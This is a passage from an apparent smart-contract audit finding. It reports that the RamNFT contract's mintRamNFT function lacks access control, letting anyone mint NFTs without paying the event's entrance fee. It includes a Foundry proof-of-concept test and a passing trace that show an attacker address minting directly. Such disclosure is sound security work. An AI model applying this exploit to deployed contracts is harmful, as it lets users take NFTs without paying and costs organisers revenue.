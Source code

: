 ##### Likelihood of Exploitation
The likelihood of this vulnerability being exploited is high. Since the function is `publicly` accessible and lacks any `access` restrictions, any`user` with knowledge of the `contract`can exploit it to `mint` `NFTs`without paying the required `entry fee`.

## Impact
This vulnerability enables any user to `mint` `RamNFT` tokens without paying the `entrance fee`, leading to several issues:

1. `Financial Losses`: The event `organize`r will lose revenue as users bypass the `entry fee`.
2. ` Integrity Undermined`: The integrity of the `Dussehra` event is compromised, as the process intended to be followed is bypassed.
3. `Fairness Disrupted`: The fairness of the event is affected, as` unauthorized users` can obtain `NFTs` without contributing.
4. `Participation and Rewards`: The overall participation and reward distribution of the event are disrupted.



## PoC
The `PoC` highlights al vulnerability in the `RamNFT` contract where any `use`r can `mint NFTs` without paying the required `entrance fee`. By simulating an attack scenario, the `PoC` demonstrates how an unauthorized `user` can directly call the `mintRamNFT` function, bypassing the intended fee mechanism and `minting` an `NFT` without proper authorization. Through careful setup and execution, the `PoC` confirms the presence of the vulnerability by asserting the `attacker's NFT balance`. 
```
    function test_ifAnybodyCanMintNFTWithouEntryFee()external {
        address attacker = makeAddr("attacker");
        vm.prank(attacker);
        ramNFT.mintRamNFT(attacker);

        assertEq(ramNFT.balanceOf(attacker), 1);
    }
```
Running the `test` confirms the presence of the vulnerability, as it `passes` without any issues. This outcome underscores the urgent need to address the `unauthorized NFT minting` to ensure the event's integrity and fairness.
```
Ran 1 test for test/Dussehra.t.sol:CounterTest
[PASS] test_ifAnybodyCanMintNFTWithouEntryFee() (gas: 103740)
Traces:
  [103740] CounterTest::test_ifAnybodyCanMintNFTWithouEntryFee()
    ├─ [0] VM::addr(<pk>) [staticcall]
    │   └─ ← [Return] attacker: [0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e]
    ├─ [0] VM::label(attacker: [0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e], "attacker")
    │   └─ ← [Return] 
    ├─ [0] VM::prank(attacker: [0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e])
    │   └─ ← [Return] 
    ├─ [92342] RamNFT::mintRamNFT(attacker: [0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e])
    │   ├─ emit Transfer(from: 0x0000000000000000000000000000000000000000, to: attacker: [0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e], tokenId: 0)
    │   └─ ← [Stop] 
    ├─ [722] RamNFT::balanceOf(attacker: [0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e]) [staticcall]
    │   └─ ← [Return] 1
    ├─ [0] VM::assertEq(1, 1) [staticcall]
    │   └─ ← [Return] 
    └─ ← [Stop] 

```
